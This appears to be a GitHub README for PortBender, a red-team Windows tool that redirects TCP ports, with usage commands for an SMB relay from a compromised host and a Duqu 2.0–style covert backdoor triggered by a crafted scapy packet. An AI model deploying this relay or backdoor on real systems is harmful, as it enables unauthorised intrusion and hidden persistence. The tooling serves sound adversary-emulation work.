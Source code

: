 # PortBender

## Overview

PortBender a PE adaptation of the original PortBender created by Praetorian Inc for Cobalt Strike C2 [1]. It is a TCP port redirection utility that allows a red team operator to redirect inbound traffic destined for one TCP port (e.g., 445/TCP) to another TCP port (e.g., 8445/TCP). The tool also allows operators to simulate a backdoor/persistence mechanism leveraged within the "PortServ.sys" capability used by the Duqu 2.0 threat actor. 

##  Design

PortBender leverages the WinDivert library to intercept network traffic using the Windows Filtering Platform (WFP). The design of PortBender is heavily influenced by the DivertTCPConn utility [2] which also leverages the WinDivert library [3].

```
                              +-----------------+
                              |   PortBender    |
                     +------->|                 |--------+
                     |        |  WinDivert.dll  |        |
                     |        +-----------------+        |
                     |                                   | (3) re-injected
                     | (2a) matching packet              |     packet
                     |                                   |
                     |                                   |
 [user mode]         |                                   |
 ....................|...................................|...................
 [kernel mode]       |                                   |
                     |                                   |
                     |                                   |
              +---------------+                          +----------------->
  (1) packet  |               | (2b) non-matching packet
 ------------>| WinDivert.sys |-------------------------------------------->
              |               |
              +---------------+
```

## Usage

PortBender has two modes of operation. The first is "redirector mode," and the second is "backdoor mode." In "redirector mode," any connection to a targeted destination port (e.g., 445/TCP) is redirected to an alternative port (e.g., 8445/TCP). In "backdoor mode," we only redirect traffic if an attacker sends a specially formatted TCP packet to a target port (e.g., 443/TCP). PortBender then adds that client IP address to a list of backdoor clients and redirects all traffic to that target port to an alternative port (e.g., 3389/TCP). An operator can leverage this mechanism to emulate the persistence technique used by the Duqu 2.0 threat actor when compromising Kaspersky.

To execute PortBender we must first upload the WinDivert32.sys or WinDivert64.sys binary and WinDivert.dll to the target host depending on the operating system architecture. The help menu for PortBender with the example usage is shown below:

```console
C:\> PortBender.exe
Redirect Usage: PortBender redirect SrcPort DstPort
Backdoor Usage: PortBender backdoor SrcPort DstPort password
Example:
        PortBender redirect 445 8445
        PortBender backdoor 443 3389 portbender.antihacker
```

## Example Usage

### Redirect mode

For example, we may wish to execute PortBender in redirector mode to perform an SMB relay attack from a compromised Windows system.  To facilitate this, we can instruct PortBender to redirect all traffic to 445/TCP to an alternative port 8445/TCP running an attacker SMB service. In this example, we run the command "PortBender redirect 445 8445" to accomplish this.

```console
C:\> PortBender.exe redirect 445 8445
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
New connection from 10.10.10.11:54646 to 10.10.10.10:445
```

### Backdoor mode

In this example, we want to deploy the covert persistence mechanism on a compromised Internet-facing IIS webserver. Here we run the "PortBender backdoor 443 3389 portbender.antihacker" to instruct the backdoor service to redirect any connections to 443/TCP to 3389/TCP on the compromised host from any connected IP address by providing a crafted TCP request with the payload "portbender.antihacker".

```console
C:\> PortBender.exe backdoor 443 3389 portbender.antihacker
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in backdoor mode
Configuring redirection of connections targeting 443/TCP to 3389/TCP
Client 10.10.10.11 connected to the server
New connection from 10.10.10.11:51234 to 10.10.10.10:443
```

To connect to or disconnect from the backdoor server, we can send the following TCP request using scapy

```console
$ sudo scapy
>>> send(IP(dst="10.10.10.10") / TCP(sport=51337,dport=443,flags="SR",seq=1000) / (bytes(b"portbender.antihacker")))
```

## Acknowledgements

* Praetorian for his work on the original PortBender [1]
* Arno0x0x for his work on DivertTCPConn [2]
* Basil00 for his work on WinDivert [3]

## References

[1] https://github.com/praetorian-inc/PortBender/tree/main \
[2] https://github.com/Arno0x/DivertTCPconn \
[3] https://github.com/basil00/Divert
